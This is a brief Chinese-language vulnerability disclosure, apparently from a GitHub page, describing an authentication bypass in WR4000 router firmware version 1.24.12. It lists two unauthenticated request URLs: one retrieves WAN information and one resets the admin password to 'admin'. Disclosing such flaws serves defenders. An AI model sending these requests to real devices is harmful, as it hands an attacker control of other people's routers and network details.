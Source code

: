 ##cve编号：无
##漏洞名称：权限绕过
##漏洞类型：权限绕过
##影响版本：
- wr4000 固件版本：1.24.12
##利用脚本：
无
##漏洞细节：
- 获取WAN信息
- `url/protocol.csp?fname=net&opt=wan_info&function=get&math=`
- 重置admin密码
- `/protocol.csp?fname=system&opt=login_account&function=set&user=admin&password=admin`
- 
##reference：
